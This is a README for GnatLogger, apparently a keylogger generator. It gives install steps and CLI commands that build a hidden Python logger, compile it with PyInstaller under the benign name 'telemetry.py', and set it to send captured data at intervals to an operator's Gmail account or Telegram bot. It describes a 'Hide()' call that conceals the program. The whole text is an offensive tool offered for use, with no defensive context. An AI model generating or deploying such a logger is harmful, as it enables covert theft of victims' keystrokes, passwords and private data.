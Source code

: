 # GnatLogger

### How to install GnatLogger  
`git clone https://github.com/UndeadSec/GnatLogger.git`

`python3 -m venv env`

Activate environment  

`.\env\Scripts\activate.bat`

Install requirements  

`pip install -r requirements.txt`

### Using GnatLogger   

[CLI] Generate script python with your configs using option email

`python gnatlogger.py --force -e youremail@gmail.com -p emailpassword -i 30 -to sentoemail@gmail.com --enableemail`

`--force` Use this option to generate the file without all the necessary arguments.

[CLI] Generate using option Telegram

`python gnatlogger.py --force --uid 990911 -k 203040:YOUTOKENXJK$3 --interval 30 --enabletelegram `  

[Interactive mode]

Just use `python gnatlogger.py` without `--force`

You can use the cli parameters for use in interactive mode

`python gnatlogger.py --uid 990911 -k 203040:YOUTOKENXJK$3 --interval 30`

Then finish setting the variables in interactive mode

### Finally 

Enter on interactive mode and compile the script telemetry.py using option `C`(without debug pyinstaller) or `D`(with debug pyinstaller)

To debug, comment the line `Hide()`

@TODO: Compile script to exe using cli


### Usage  

```
usage: gnatlogger.py [-h] [-e EMAIL] [-p PASSWORD] [-i INTERVAL] [-t TO] [-d DEBUG] [-u UID] [-k TOKEN]
                     [--enabletelegram] [--enableemail] [--force]

Set configs to gerenerate a new file

options:  
  -h, --help            show this help message and exit
  -e EMAIL, --email EMAIL
                        set a new email
  -p PASSWORD, --password PASSWORD
                        set a new password
  -i INTERVAL, --interval INTERVAL
                        set a new interval
  -t TO, --to TO        set send to email
  -d DEBUG, --debug DEBUG
                        Enable debug loggs on gnatlogger script, use DEBUG
  -u UID, --uid UID     uid telegram @myidbot
  -k TOKEN, --token TOKEN
                        token bot telegram
  --enabletelegram      enable telegram as send form
  --enableemail         enable email as send form
  --force               disable interactive and force generate file
  ```
